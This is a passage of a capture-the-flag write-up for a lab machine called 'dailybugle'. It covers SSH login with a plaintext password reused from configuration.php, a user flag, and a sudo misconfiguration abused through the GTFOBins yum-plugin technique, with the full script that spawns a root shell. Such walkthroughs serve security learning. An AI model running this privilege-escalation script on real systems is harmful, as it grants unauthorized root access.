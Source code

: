 ### 9. SSH as jjameson
- Tested SSH with the credentials from `configuration.php`:
  ```bash
  ssh jjameson@10.10.85.222
  ```
- Password: `nv5uz9r3ZEDzVjNu`
- Success: Logged in as `jjameson`.
- Found user flag:
  ```bash
  ls
  cat user.txt
  ```
- Content: `27a260fe3cba712cfdedb1c86d80442e` [].
- Checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Output:
  ```
  User jjameson may run the following commands on dailybugle:
      (ALL) NOPASSWD: /usr/bin/yum
  ```
- **Key Insight**: `jjameson` can run `yum` as `root` without a password, exploitable for privilege escalation [].

### 10. Escalate to Root with yum
- Visited [GTFOBins](https://gtfobins.github.io/gtfobins/yum/) for `yum` exploitation [].
- Used the plugin-based exploit to spawn a root shell:
  ```bash
  cd /tmp
  TF=$(mktemp -d)
  cat >$TF/x<<EOF
  [main]
  plugins=1
  pluginpath=$TF
  pluginconfpath=$TF
  EOF
  cat >$TF/y.conf<<EOF
  [main]
  enabled=1
  EOF
  cat >$TF/y.py<<EOF
  import os
  import yum
  from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
  requires_api_version='2.1'
  def init_hook(conduit):
    os.execl('/bin/sh','/bin/sh')
  EOF
  sudo yum -c $TF/x --enableplugin=y
  ```
- **Explanation**:
  - Creates a temporary directory (`$TF`).
  - Configures `yum` to load a custom plugin (`y.py`) that executes `/bin/sh` as `root`.
  - The `NOPASSWD` `sudo` permission allows this to run without a password [].
- **Result**: Got a root shell:
  ```bash
  id
  uid=0(root) gid=0(root) groups=0(root)
  ```
- Found the root flag:
  ```bash
  cd /root
  cat root.txt
  ```